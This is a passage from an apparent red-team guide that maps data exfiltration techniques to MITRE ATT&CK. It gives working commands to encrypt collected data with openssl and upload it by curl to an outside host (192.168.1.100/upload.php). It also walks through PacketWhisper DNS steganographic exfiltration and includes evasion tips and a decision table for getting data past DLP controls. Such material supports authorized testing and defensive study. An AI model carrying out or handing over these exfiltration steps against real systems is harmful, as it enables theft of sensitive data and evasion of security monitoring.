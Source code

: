 **Specific ATT&CK Mapping**:
- Encrypted transfer implements T1048.002
- HTTPS blends with normal web traffic

**Detection Considerations**:
- Large encrypted transfers may still trigger volume alerts
- SSL/TLS inspection might reveal suspicious content
- Consider mimicking legitimate application traffic patterns

### Encrypted Channel (T1573)

This involves using encryption to hide the contents of command and control traffic.

**Encrypted Communication**:
```bash
# Generate encryption key
openssl rand -base64 32 > key.bin

# Encrypt data before transfer
openssl enc -aes-256-cbc -salt -in collected_data.tar.gz -out data.enc -pass file:./key.bin

# Transfer encrypted data
curl -F "file=@data.enc" http://192.168.1.100/upload.php
```

**Specific ATT&CK Mapping**:
- Custom encryption implements T1573
- Encryption prevents content inspection

### PacketWhisper: Steganographic Exfiltration

**PacketWhisper** provides stealth exfiltration through DNS:

```bash
# Start PacketWhisper
python packetWhisper.py

# Select exfiltration options:
# - Encoding: Base256
# - Transport: DNS (or ICMP/HTTP)
# - Chunk size: Small
# - Select file to exfiltrate
```

**Specific ATT&CK Mapping**:
- Steganographic techniques implement multiple exfiltration methods:
  - Exfiltration Over Alternative Protocol (T1048)
  - Obfuscated Files or Information (T1027)

**Red Team Guidance**:
- Use steganography for highly sensitive data
- Test exfiltration channels before operational use
- Have multiple exfiltration methods available

> **RED TEAM TIP:**
>
> Develop an exfiltration decision tree based on target environment:
>
> | Environment | Primary Method | Secondary Method | Last Resort |
> |-------------|---------------|------------------|-------------|
> | Strict DLP | DNS Tunneling | Steganography | Physical Exfiltration |
> | Standard Corporate | HTTPS | Custom Encrypted | DNS Tunneling |
> | Basic Security | HTTPS | FTP/SFTP | Email Attachments |
>
> This approach ensures you have appropriate exfiltration options for different security levels.
